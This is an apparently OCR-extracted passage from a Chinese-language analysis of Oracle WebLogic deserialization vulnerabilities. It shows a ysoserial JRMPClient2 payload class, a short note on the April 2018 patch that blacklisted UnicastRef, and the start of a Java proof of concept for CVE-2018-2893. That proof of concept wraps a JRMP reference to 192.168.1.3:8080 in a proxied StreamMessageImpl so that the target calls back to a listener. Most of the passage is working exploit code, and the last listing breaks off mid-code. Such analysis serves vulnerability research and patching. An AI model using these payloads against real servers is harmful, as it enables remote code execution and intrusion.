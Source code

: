 ```java
} )
@PayloadTest( harness="ysoserial.test.payloads.JRMPReverseConnectSMTest")
@Authors({ Authors.MBECHLER })
public class JRMPClient2 extends PayloadRunner implements ObjectPayload<UnicastRef> {

    public UnicastRef getObject ( final String command ) throws Exception {

        String host;
        int port;
        int sep = command.indexOf(':');
        if ( sep < 0 ) {
            port = new Random().nextInt(65535);
            host = command;
        }
        else {
            host = command.substring(0, sep);
            port = Integer.valueOf(command.substring(sep + 1));
        }
        ObjID id = new ObjID(new Random().nextInt()); // RMI registry
        TCPEndpoint te = new TCPEndpoint(host, port);
        UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));
        return ref;
    }


    public static void main ( final String[] args ) throws Exception {
        Thread.currentThread().setContextClassLoader(JRMPClient.class.getClassLoader());
        PayloadRunner.run(JRMPClient.class, args);
    }
}
```

### 修复

补丁：2018年四月发布的p27395085_1036_Generic
UnicastRef在weblogic.utils.io.oif.WebLogicFilterConfig中加进了黑名单。

## CVE-2018-2893

streamMessageImpl + jrmp代理类绕过。先来看payload

```java
import sun.rmi.server.UnicastRef;
import sun.rmi.transport.LiveRef;
import sun.rmi.transport.tcp.TCPEndpoint;
import weblogic.jms.common.StreamMessageImpl;

import java.io.*;
import java.lang.reflect.Proxy;
import java.rmi.registry.Registry;
import java.rmi.server.ObjID;
import java.rmi.server.RemoteObjectInvocationHandler;
import java.util.Random;

public class CVE_2018_2893 {
    public static void main(String[] args) throws IOException {
        ObjID objID = new ObjID(new Random().nextInt()); // RMI registry
        TCPEndpoint tcpEndpoint = new TCPEndpoint("192.168.1.3", 8080);
        UnicastRef unicastRef = new UnicastRef(new LiveRef(objID, tcpEndpoint, false));
        RemoteObjectInvocationHandler remoteObjectInvocationHandler = new RemoteObjectInvocationHandler(unicastRef);//通过代理
        Object object = Proxy.newProxyInstance(Thread.currentThread().getContextClassLoader(), new Class[] { Registry.class }, remoteObjectInvocationHandler);
        StreamMessageImpl streamMessage = new StreamMessageImpl(serialize(object));
```